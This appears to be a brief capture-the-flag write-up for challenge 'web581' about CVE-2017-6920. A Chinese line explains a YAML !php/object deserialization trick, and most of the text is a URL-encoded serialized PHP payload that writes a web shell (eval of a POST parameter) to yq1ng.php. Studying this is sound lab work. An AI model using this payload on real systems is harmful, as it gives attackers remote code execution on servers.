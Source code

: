 # web581


CVE-2017- 6920
开头部分使用!php/object就会造成后面字符串的反序列化



content=!php/object O%3A3%3A%22log%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A9%3A%22yq1ng.php%22%3Bs%3A7%3A%22content%22%3Bs%3A31%3A%22%3C%3Fphp+eval%28%24_POST%5B%22yq1ng%22%5D%29%3B+%3F%3E%22%3B%7D